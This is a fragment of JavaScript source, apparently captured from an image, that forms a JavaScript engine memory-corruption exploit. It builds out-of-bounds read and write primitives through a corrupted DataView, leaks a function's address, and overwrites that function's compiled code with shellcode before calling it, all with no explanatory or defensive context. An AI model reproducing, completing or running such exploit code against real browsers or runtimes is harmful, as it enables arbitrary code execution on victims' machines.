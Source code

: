 ```js


    new (derived_n(tDerivedNDepth))();

    this.buffer_view = new DataView(this.buffer);
    this.leakPtr = function (obj) {
        this.page_buffer.slot = obj;
        return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);
    }

    this.setPtr = function (addr) {
        this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);
    }

    this.read32 = function (addr) {
        this.setPtr(addr);
        return this.page_view.getUint32(0, true, ...this.prevent_opt);
    }

    this.write32 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint32(0, value, true, ...this.prevent_opt);
    }

    this.write8 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint8(0, value, ...this.prevent_opt);
    }

    this.setBytes = function (addr, content) {
        for (var i = 0; i < content.length; i++) {
            this.write8(addr + i, content[i]);
        }
    }
    return this;
}

function trigger() {
    var oob = oobAccess();

    var func_ptr = oob.leakPtr(target_function);
    print('[*] target_function at 0x' + func_ptr.toString(16));

    var kCodeInsOffset = 0x1b;

    var code_addr = oob.read32(func_ptr + kCodeInsOffset);
    print('[*] code_addr at 0x' + code_addr.toString(16));

    oob.setBytes(code_addr, shellcode);

    target_function(0);
}

try {
    print("start running");
    trigger();
} catch (e) {
    print(e);
}
```
